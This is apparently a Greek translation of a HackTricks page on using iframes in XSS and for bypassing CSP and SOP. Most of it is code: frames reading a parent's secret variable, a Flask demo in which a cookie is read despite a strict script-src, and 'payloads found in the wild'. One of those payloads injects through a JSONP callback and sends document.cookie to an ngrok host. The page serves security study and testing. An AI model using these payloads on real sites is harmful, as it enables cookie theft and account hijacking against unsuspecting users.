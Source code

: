 # Iframes in XSS, CSP and SOP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Iframes in XSS

Υπάρχουν 3 τρόποι για να υποδείξετε το περιεχόμενο μιας σελίδας που είναι ενσωματωμένη σε iframe:

* Μέσω `src` που υποδεικνύει μια διεύθυνση URL (η διεύθυνση URL μπορεί να είναι διασυνοριακή ή ίδια προέλευση)
* Μέσω `src` που υποδεικνύει το περιεχόμενο χρησιμοποιώντας το πρωτόκολλο `data:`
* Μέσω `srcdoc` που υποδεικνύει το περιεχόμενο

**Accesing Parent & Child vars**
```html
<html>
<script>
var secret = "31337s3cr37t";
</script>

<iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if2" src="child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

<script>
function access_children_vars(){
alert(if1.secret);
alert(if2.secret);
alert(if3.secret);
alert(if4.secret);
}
setTimeout(access_children_vars, 3000);
</script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret="child secret";
alert(parent.secret)
</script>
```
Αν αποκτήσετε πρόσβαση στο προηγούμενο html μέσω ενός http server (όπως το `python3 -m http.server`) θα παρατηρήσετε ότι όλα τα scripts θα εκτελούνται (καθώς δεν υπάρχει CSP που να το αποτρέπει)., **ο γονέας δεν θα μπορεί να έχει πρόσβαση στη μεταβλητή `secret` μέσα σε οποιοδήποτε iframe** και **μόνο τα iframes if2 & if3 (τα οποία θεωρούνται ότι είναι στον ίδιο ιστότοπο) μπορούν να έχουν πρόσβαση στο secret** στο αρχικό παράθυρο.\
Σημειώστε πώς το if4 θεωρείται ότι έχει `null` προέλευση.

### Iframes με CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Παρακαλώ, σημειώστε πώς στις παρακάτω παρακάμψεις η απάντηση στη σελίδα που είναι ενσωματωμένη σε iframe δεν περιέχει κανένα CSP header που να αποτρέπει την εκτέλεση JS.
{% endhint %}

Η τιμή `self` του `script-src` δεν θα επιτρέψει την εκτέλεση του JS κώδικα χρησιμοποιώντας το πρωτόκολλο `data:` ή το χαρακτηριστικό `srcdoc`.\
Ωστόσο, ακόμη και η τιμή `none` του CSP θα επιτρέψει την εκτέλεση των iframes που βάζουν μια διεύθυνση URL (ολοκληρωμένη ή απλώς η διαδρομή) στο χαρακτηριστικό `src`.\
Επομένως, είναι δυνατόν να παρακαμφθεί το CSP μιας σελίδας με:
```html
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
<script>
var secret = "31337s3cr37t";
</script>
<iframe id="if1" src="child.html"></iframe>
<iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```
Σημειώστε ότι η **προηγούμενη CSP επιτρέπει μόνο την εκτέλεση του inline script**.\
Ωστόσο, **μόνο τα scripts `if1` και `if2` θα εκτελούνται αλλά μόνο το `if1` θα μπορεί να έχει πρόσβαση στο γονικό μυστικό**.

![](<../../.gitbook/assets/image (372).png>)

Επομένως, είναι δυνατόν να **παρακαμφθεί μια CSP αν μπορείτε να ανεβάσετε ένα αρχείο JS στον διακομιστή και να το φορτώσετε μέσω iframe ακόμη και με `script-src 'none'`**. Αυτό μπορεί **πιθανώς να γίνει επίσης εκμεταλλευόμενοι ένα endpoint JSONP της ίδιας τοποθεσίας**.

Μπορείτε να το δοκιμάσετε με το παρακάτω σενάριο όπου ένα cookie κλέβεται ακόμη και με `script-src 'none'`. Απλώς εκτελέστε την εφαρμογή και αποκτήστε πρόσβαση σε αυτήν με τον περιηγητή σας:
```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
resp.headers['Content-Security-Policy'] = "script-src 'self'"
resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
return resp

@app.route("/cookie_s.html")
def cookie_s():
return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
app.run()
```
### Άλλες Payloads που βρέθηκαν στην άγρια φύση <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>
```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```
### Iframe sandbox

Το περιεχόμενο μέσα σε ένα iframe μπορεί να υποβληθεί σε επιπλέον περιορισμούς μέσω της χρήσης του χαρακτηριστικού `sandbox`. Από προεπιλογή, αυτό το χαρακτηριστικό δεν εφαρμόζεται, πράγμα που σημαίνει ότι δεν υπάρχουν περιορισμοί.

Όταν χρησιμοποιείται, το χαρακτηριστικό `sandbox` επιβάλλει αρκετούς περιορισμούς:

* Το περιεχόμενο αντιμετωπίζεται σαν να προέρχεται από μια μοναδική πηγή.
* Οποιαδήποτε προσπάθεια υποβολής φορμών αποκλείεται.
* Η εκτέλεση σεναρίων απαγορεύεται.
* Η πρόσβαση σε ορισμένα APIs είναι απενεργοποιημένη.
* Αποτρέπει τους συνδέσμους από το να αλληλεπιδρούν με άλλα περιβάλλοντα περιήγησης.
* Η χρήση plugins μέσω των `<embed>`, `<object>`, `<applet>` ή παρόμοιων ετικετών απαγορεύεται.
* Η πλοήγηση του περιεχομένου στο ανώτατο επίπεδο περιβάλλοντος περιήγησης από το ίδιο το περιεχόμενο αποτρέπεται.
* Λειτουργίες που ενεργοποιούνται αυτόματα, όπως η αναπαραγωγή βίντεο ή η αυτόματη εστίαση ελέγχων φορμών, αποκλείονται.

Η τιμή του χαρακτηριστικού μπορεί να αφεθεί κενή (`sandbox=""`) για να εφαρμοστούν όλοι οι παραπάνω περιορισμοί. Εναλλακτικά, μπορεί να οριστεί σε μια λίστα συγκεκριμένων τιμών χωρισμένων με κενά που εξαιρούν το iframe από ορισμένους περιορισμούς.
```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```
## Iframes στο SOP

Ελέγξτε τις παρακάτω σελίδες:

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
